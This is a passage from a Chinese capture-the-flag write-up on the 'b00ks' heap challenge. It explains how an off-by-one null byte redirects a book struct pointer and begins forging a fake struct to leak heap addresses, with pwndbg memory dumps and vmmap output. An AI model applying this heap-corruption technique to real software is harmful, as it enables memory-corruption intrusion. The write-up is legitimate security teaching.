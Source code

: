 -   0x555555757760：book1_id
-   0x555555757768：book1_name：0x0000555555757670
-   0x555555757770：book1_desc：0x0000555555757690

book1的结构体指针低位能够覆盖作者名的\x00，那么作者名的\x00可以覆盖结构体指针的低位呢？程序有修改作者名的功能，输入的作者名依然会放在off_202018中。book1结构体的起始地址为0x0000555555757760，那么被覆盖之后会变为0x0000555555757700.

作者名处，其中0x555555756060处已变为0x0000555555757700。

```
pwndbg> x/10gx 0x555555756040
0x555555756040:	0x6161616161616161	0x6161616161616161
0x555555756050:	0x6161616161616161	0x6161616161616161
0x555555756060:	0x0000555555757700	0x0000555555776090
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
```

此时程序就会去0x0000555555757700的位置寻找结构体，

![](堆中的off-by-one//1616265201903.png)

#### 4.伪造结构体并泄露book2_name,book2_desc

下面解释为什么book2的书名大小和书名类别大小设置为135168：

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/yutao/Desktop/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/yutao/Desktop/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/yutao/Desktop/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7f9c000     0x7ffff7fe2000 rw-p    46000 0      
    0x7ffff7ff8000     0x7ffff7ffb000 r--p     3000 0      [vvar]
    0x7ffff7ffb000     0x7ffff7ffc000 r-xp     1000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```
